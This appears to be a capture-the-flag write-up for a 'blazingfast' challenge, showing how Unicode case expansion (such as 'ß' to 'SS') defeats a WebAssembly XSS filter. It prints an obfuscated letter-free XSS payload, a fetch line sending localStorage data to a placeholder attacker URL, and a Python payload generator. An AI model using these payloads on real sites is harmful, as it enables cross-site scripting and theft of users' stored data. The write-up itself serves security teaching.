 # blazingfast

## Description

> I made a blazing fast MoCkInG CaSe converter!

{% file src="../../.gitbook/assets/blazingfast (1).tar" %}

## Solution

### Code Review

Looking at the site's JavaScript, we can see that the `demo()` function is called on the `demo` GET request parameter, which results in the setting of the `innerHTML` of the `result` element.

```javascript
function demo(str) {
	document.getElementById('result').innerHTML = mock(str);
}

WebAssembly.instantiateStreaming(fetch('/blazingfast.wasm')).then(({ instance }) => {	
	blazingfast = instance.exports;

	document.getElementById('demo-submit').onclick = () => {
		demo(document.getElementById('demo').value);
	}

	let query = new URLSearchParams(window.location.search).get('demo');

	if (query) {
		document.getElementById('demo').value = query;
		demo(query);
	}
})
```

The `mock()` function is a wrapper for the functions exposed by the WASM module. Interestingly, the `str.length` is measured _before_ converting the string to upper case - this leads to [inconsistencies in length measurement of some Unicode characters](https://stackoverflow.com/questions/49895784/change-to-length-with-touppercase).

Another interesting point to note is that when reading from the buffer, `str.length` is not used. Instead, characters are read until a null terminator is reached.

```javascript
function mock(str) {
	blazingfast.init(str.length);

	if (str.length >= 1000) return 'Too long!';

	for (let c of str.toUpperCase()) {
		if (c.charCodeAt(0) > 128) return 'Nice try.';
		blazingfast.write(c.charCodeAt(0));
	}

	if (blazingfast.mock() == 1) {
		return 'No XSS for you!';
	} else {
		let mocking = '', buf = blazingfast.read();

		while(buf != 0) {
			mocking += String.fromCharCode(buf);
			buf = blazingfast.read();
		}

		return mocking;
	}
}
```

Notably, the `mock()` function in the WASM module also uses the initialized `length`, which is set to `str.length` to validate the buffer.&#x20;

Therefore, if the `str.length` is shorter than the actual number of characters written into the buffer, the `mock()` function will not check the entire buffer, allowing the `<>&"` characters.

```c
int length, ptr = 0;
char buf[1000];

void init(int size) {
	length = size;
	ptr = 0;
}

char read() {
	return buf[ptr++];
}

void write(char c) {
	buf[ptr++] = c;
}

int mock() {
	for (int i = 0; i < length; i ++) {
		if (i % 2 == 1 && buf[i] >= 65 && buf[i] <= 90) {
			buf[i] += 32;
		}

		if (buf[i] == '<' || buf[i] == '>' || buf[i] == '&' || buf[i] == '"') {
			return 1;
		}
	}

	ptr = 0;

	return 0;
}
```

### Problematic Unicode

When converting to upper case, some Unicode characters like `ß` turn into multiple characters instead. `ß` is converted to `SS`, which falls within the range of 0 to 128, passing the `if (c.charCodeAt(0) > 128) return 'Nice try.';` check.

![](<../../.gitbook/assets/image (89).png>)

When `str.length` is initialized, the single character `ß` is used to calculate the length. However, when writing to the buffer, two characters `SS` are written instead. This allows us to bypass the XSS validation.&#x20;

For instance, `ß<` will have a length of 2, but is converted to `SS<` when writing to the buffer. The `mock()` function uses the initialized length to iterate through the buffer in the `for (int i = 0; i < length; i ++)` loop, missing out the final `<` character.

### Building the Payload

Our final hurdle lies in the fact that JavaScript is a case-sensitive language, and our payload is converted to upper case before being added to the `innerHTML`. For example, if we use `eval()` as our JavaScript payload, then `EVAL()` will be called - but the `EVAL` function is not defined.

I found inspiration from [this post](https://techiavellian.com/constructing-an-xss-vector-using-no-letters), which shows how we can construct an XSS vector without using letters. In his payload, the following is used to build `""["sub"]["constructor"]("alert(1)")()`.

```javascript
""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]][(''+{})[5]+(''+{})[1]+((""[(!1+"")[3]+(!0+"")[2]+(''+{})[2]])+"")[2]+(!1+'')[3]+(!0+'')[0]+(!0+'')[1]+(!0+'')[2]+(''+{})[5]+(!0+'')[0]+(''+{})[1]+(!0+'')[1]](((!1+"")[1]+(!1+"")[2]+(!0+"")[3]+(!0+"")[1]+(!0+"")[0])+"(1)")()
```

To modify this payload for our purposes, I just had to change the part where the `"alert(1)"` stirng is constructed, and replace it with octal characters for our JavaScript payload, which was

```javascript
fetch('https://ATTACKER_URL/?' + localStorage.getItem('flag'))
```

The following script generates the XSS payload, using `<img src="x" onerror=PAYLOAD>`.

```python
import urllib.parse

# Obfuscation inspired by https://techiavellian.com/constructing-an-xss-vector-using-no-letters

payload = '<img src="x" onerror=\'""[(!1+"")[3]+(!0+"")[2]+(""+{})[2]][(""+{})[5]+(""+{})[1]+((""[(!1+"")[3]+(!0+"")[2]+(""+{})[2]])+"")[2]+(!1+"")[3]+(!0+"")[0]+(!0+"")[1]+(!0+"")[2]+(""+{})[5]+(!0+"")[0]+(""+{})[1]+(!0+"")[1]]("\\146\\145\\164\\143\\150...")()\'>'
special_char = 'ﬃ'

print(urllib.parse.quote_plus(special_char * (len(payload) // 2 + 1) + payload))
```
